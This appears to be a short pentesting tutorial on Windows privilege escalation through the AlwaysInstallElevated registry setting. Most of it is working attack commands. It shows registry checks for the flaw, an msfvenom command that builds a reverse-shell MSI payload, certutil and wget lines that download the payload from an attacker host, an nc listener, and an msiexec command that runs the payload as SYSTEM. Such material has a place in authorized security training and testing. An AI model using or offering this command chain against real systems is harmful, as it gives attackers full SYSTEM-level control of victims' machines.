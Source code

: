 
##  What is `AlwaysInstallElevated`?
Windows has two registry keys that, when both set to `1`, allow **any user** to run `.msi` installer files **with SYSTEM privileges**.
Windows has these 2 keys:
```
HKCU\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
HKLM\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
If both are set to `1` or `0x1`, **any user can install MSI packages with SYSTEM privileges**.
####  Check if the system is vulnerable
Run the following commands **on the target machine**:
> **reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated**

> **reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated**

**Vulnerable** if both return:
`AlwaysInstallElevated REG_DWORD 0x1`

## 1: Generate a malicious MSI payload
On your **attacker machine (Kali/Parrot):**
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=445 -f msi > shell.msi
```
This creates a file `shell.msi` that will **connect back to you as SYSTEM** when installed.
## **2: Transfer the MSI to the victim**
On the victim’s **PowerShell**:
```bash
# wget 
wget http://<YOUR-IP>/shell.msi -o shell.msi

# certutil
certutil -urlcache -split -f "http://10.17.68.184:8000/shell.msi" shell.msi
```
## 3: Install the MSI with SYSTEM privileges
on Attacker machine run 
```
rlwrap -f . -r nc -lvnp 445
```
on target machine run it
```bash
msiexec /quiet /qn /i C:\Temp\shell.msi
```
- `msiexec`: The Windows Installer program
- `/quiet /qn`: No user interface
- `/i`: Install the MSI

Since **AlwaysInstallElevated is enabled**, this **runs as SYSTEM** even from a low-privileged account.
